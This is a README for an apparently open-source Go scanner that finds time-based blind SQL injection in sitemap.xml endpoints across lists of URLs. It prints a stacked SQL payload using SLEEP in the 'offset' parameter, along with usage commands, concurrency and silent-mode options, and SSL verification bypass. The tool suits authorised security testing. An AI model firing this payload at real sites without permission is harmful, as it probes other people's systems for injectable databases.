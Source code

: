 # SQLi sitemap.xml Scanner

This Go tool automates the detection of potential SQL Injection vulnerabilities in sitemap.xml using **time-based blind SQL injection (SLEEP function)**. It works by:

- Sending an **initial request** to measure the normal response time.
- Sending a **crafted SQL payload** to test for execution delays.
- Logging only the vulnerable URLs where execution delay is detected.
- Supporting **concurrent execution** for efficiency.
- Offering a **silent mode** to display only successful cases.

## Features
- **Skips slow URLs**: If the initial request takes more than **3 seconds**, it's skipped.
- **SQL Injection Payload**: `/sitemap.xml?offset=1;SELECT IF((8303>8302),SLEEP(9),2356)#`
- **Silent Mode (`--silent`)**: Only logs URLs where the payload execution time exceeds **8 seconds**.
- **Concurrent Execution (`-w`)**: Uses multiple workers to speed up the scanning process.
- **Bypasses SSL Certificate Verification**: Useful for testing misconfigured HTTPS.

## Installation

### Clone the repository
```sh
git clone https://github.com/yourusername/sqli-xml.git
cd sqli-xml
```

### Install dependencies
go build sqli-xml.go

## Usage
### Basic Usage
```sh
go run sqli-xml.go -l urls.txt -o output.txt
```
or
```
sqli-xml -l urls.txt -o output.txt

### Silent Mode (Only Show Vulnerable URLs)
```sh
go run sqli-xml.go -l urls.txt -o output.txt --silent
```

### Adjust Worker Count (Default: 12)
```sh
go run sqli-xml.go -l urls.txt -o output.txt -w 20
```

## Output Example
### Standard Mode
```
https://example.com/sitemap.xml [1.245 sec] -> https://example.com/sitemap.xml?offset=1;SELECT IF((8303>8302),SLEEP(9),2356)# [9.127 sec]
```

### Silent Mode (`--silent`)
```
https://example.com/sitemap.xml?offset=1;SELECT IF((8303>8302),SLEEP(9),2356)#
```

## Notes
- urls.txt must contain like : https://example.com , don't add sitemap.xml , it will add it automatically




